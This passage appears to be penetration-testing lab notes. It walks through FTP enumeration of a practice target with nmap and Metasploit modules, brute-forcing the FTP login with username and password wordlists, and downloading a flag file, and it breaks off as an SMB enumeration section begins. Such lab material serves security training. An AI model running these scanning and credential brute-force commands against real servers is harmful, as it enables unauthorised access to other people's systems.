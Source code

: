 **FTP** (File Transfer Protocol) is a protocol that uses TCP port 21 and is used to facilitate file sharing between a server and client/clients. FTP operates in a client-server architecture, where the client initiates a connection to the server to perform file operations.

**Objective:** Your task is to perform FTP enumeration with Metasploit. The target machine will be accessible at demo.ine.local.

```shell
# Using NMAP
ping -c 1 <target_IP>
nmap -p 21 -sV -O <target_IP>

# Start Metasploit and create a new workspace.
service  postgresql  start && msfconsole
workspace -a FTP_Enum

# Port Scan with Metasploit
search tcp portscan
use auxiliary/scanner/portscan/tcp
set RHOSTS <target_IP>
run

# FTP Metasploit Modules
search type:auxiliary  name:ftp
use auxiliary/scanner/ftp/ftp_version
set RHSOTS <target_IP>

use auxiliary/scanner/ftp/anonymous
set RHOSTS <target_IP>
run

use auxiliary/scanner/ftp/ftp_login
show options
set RHOSTS <target_IP>
set PASS_FILE <location> # /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set USER_FILE <location> # /usr/share/metasploit-framework/data/wordlists/common_users.txt
set VERBOSE false
run

# Run FTP and get the Flag
ftp <target_IP>  # Enter the credentials
ls
get secret.txt
exit
ls
cat secret.txt
```

<br>

### 5.2. SMB Enumeration

**SMB** (Server Message Block) is a network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a local network (LAN). Performing SMB server reconnaissance involves identifying and extracting information from SMB servers on a network.
